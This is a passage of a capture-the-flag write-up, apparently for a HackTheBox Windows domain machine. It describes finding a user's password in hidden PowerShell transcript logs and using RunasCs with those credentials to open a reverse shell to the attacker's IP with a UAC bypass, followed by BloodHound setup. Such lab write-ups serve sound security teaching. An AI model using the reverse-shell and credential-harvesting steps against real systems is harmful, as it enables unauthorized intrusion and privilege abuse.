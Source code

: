 ## Lateral Movement

I started enumerating using **winpease** but didn't discover anything useful. Then i decided to enumerate the File system manually. In `C:\` directory i found some hidden directories, PSTranscripts directory holds the Powershell session Hisotory Logs where i found the credentials of **Ryan** user.

<img alt="Pasted image 20240729044034" src="https://github.com/user-attachments/assets/68cf3695-d3d0-4d49-94c9-41a573f96ebd">

<img  alt="Pasted image 20240729044108" src="https://github.com/user-attachments/assets/56bc6561-d9e3-4f79-98a0-a79fda85ba1c">

- **-Force** to display hidden Directories
- **-R** for recursion

<img  alt="Pasted image 20240729044214" src="https://github.com/user-attachments/assets/5c0a5388-c5a9-491d-9fc4-f8cad7d9f520">

`C:\PSTranscripts\20191203\PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt`
`ryan : Serv3r4Admin4cc123!`

Then i check if the Ryan is a member of Remote Management group, but he didn't so we can't get shell using Evil-Winrm. 

There we will use RunasCs is **an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials** 

<img  alt="Pasted image 20240729044323" src="https://github.com/user-attachments/assets/93b8cbc1-3689-4609-ae4f-11166dc02801">

```bash
$ ./RunasCs.exe ryan  'Serv3r4Admin4cc123!' powershell.exe -r 10.10.16.8:9001 -l 8  --bypass-uac
```

- **-r** for remote connection
- **-l** to set logon type, by default it is set to 2.
- **--bypass-uac** for bypassing the token filtering limitation.

<img  alt="Pasted image 20240729054014" src="https://github.com/user-attachments/assets/34216648-ca07-41b8-982a-8515a1062dd7">

## BloodHound

 Now Let's run bloodhound-python, an investigator used to gather information from all over the domain. After it's completion, run bloodhound and upload it to bloodhound and start investigation on graph's.
 
To run Bloodhound we first need to start neo4j a graph database system. 

```shell
sudo neo4j console
Directories in use:
home:         /usr/share/neo4j
config:       /usr/share/neo4j/conf
logs:         /etc/neo4j/logs
plugins:      /usr/share/neo4j/plugins
import:       /usr/share/neo4j/import
data:         /etc/neo4j/data
certificates: /usr/share/neo4j/certificates
licenses:     /usr/share/neo4j/licenses
run:          /var/lib/neo4j/run
Starting Neo4j.
```

